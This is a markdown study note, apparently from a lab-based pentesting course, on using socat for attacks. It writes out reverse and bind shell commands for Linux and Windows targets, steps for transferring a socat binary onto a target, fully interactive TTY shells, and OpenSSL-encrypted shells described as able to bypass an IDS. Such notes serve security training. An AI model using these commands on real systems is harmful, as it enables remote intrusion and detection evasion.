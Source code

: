 ```yaml
---
{"dg-publish":true,"permalink":"/socat/","hide":"true"}
---
```


- Netcat on steroids.
- Socat shells are **usually more stable** than netcat shells.
- Both have `.exe` versions.
- two big catches:
	1. The syntax is more difficult
	2. Socat is very rarely installed by default.
- Limited to **Linux target**
- On Windows will be no more stable than a netcat shell.
1. On the attacker download the file
```sh
   wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
   ```
   and set a python server
   ```sh
   sudo python3 -m http.server 80
   ```
2. On the target, get the file
	```sh
	wget <LOCAL-IP>/socat -O /tmp/socat
	```
	On windows
	```sh
	Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
	```
## Reverse shell
### On the attacker
basic reverse shell listener
```sh
socat TCP-L:<port> -
```
### On the target
#### Windows
On **Windows** we would use this command to connect back:
```sh
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
#### Linux
This is the equivalent command for a **Linux** Target:
```sh
socat TCP:<attacker-IP>:<attacker-PORT> EXEC:"bash -li"
```
### Fully stable Linux tty reverse shell
#### On the attacker 
This will only **work when the target is Linux**, but is _significantly_ more stable.
Perhaps one of its most useful applications.
```sh
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
- The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command.
- This means that the target must have socat installed.
- Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.
#### On the target
```sh
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- The first part  we're linking up with the listener running on our own machine.
- The second part creates an interactive bash session with  `EXEC:"bash -li"`.
- We're also passing the arguments: pty, stderr, sigint, setsid and sane:
	- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
	- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
	- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
	- **setsid**, creates the process in a new session
	- **sane**, stabilises the terminal, attempting to "normalise" it.
- As normal, on the **left** we have a **listener** running on our local **attacking machine**, on the **right** we have a simulation of a compromised **target**, running with a **non-interactive shell**. **Using the non-interactive** netcat **shell**, we **execute** the special **socat** command, and **receive a** fully **interactive** bash shell on the socat listener to the left:
![](https://i.imgur.com/etAuYzz.png)
- Note that the **socat shell is fully interactive**, allowing us to use interactive commands such as **SSH**.
- This can then be further **improved by setting the stty values** as seen in the previous task, which will let us **use** text editors such as **Vim or Nano**.
- **If**, at any point, a socat shell **is not working correctly**, it's well worth increasing the verbosity by **adding** `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
## Bind shell
### On the target
#### Linux
On a Linux target we would use the following command:
```sh
socat TCP-L:<PORT> EXEC:"bash -li"
```
#### Windows
On a Windows target we would use this command for our listener:
```sh
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.  
### On the attacker
Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
```sh
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
## Encrypted Shells
- **Cannot be spied** on unless you have the decryption key
- Are often able to **bypass an [[IDS\|IDS]]** as a result.
- TCP should be replaced with `OPENSSL` when working with encrypted shells
- Generate a certificate
```sh
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
THis creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year.
will ask you to fill in information about the certificate, This can be left blank, or filled randomly.
- merge the two created files into a single `.pem` file:
```sh
cat shell.key shell.crt > shell.pem
```
### Reverse shell
- when we set up our reverse shell listener, we use:
```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
- This sets up an OPENSSL listener using our generated certificate
- `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.
- Please note that the certificate _must_ be used on whichever device is listening.
To connect back, we would use:
```sh
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

- The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:

![](https://i.imgur.com/UbOPN9q.png)  
This technique will also **work** with the special, **Linux-only TTY shell** covered in the previous task -- figuring out the syntax for this will be the challenge for this task.
Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.
#### Example reverse shell full tty and encripted
Listenet
```sh
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```
Attacker:
```sh
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
### Bind shell
Target:
```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
Attacker:
```sh
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.
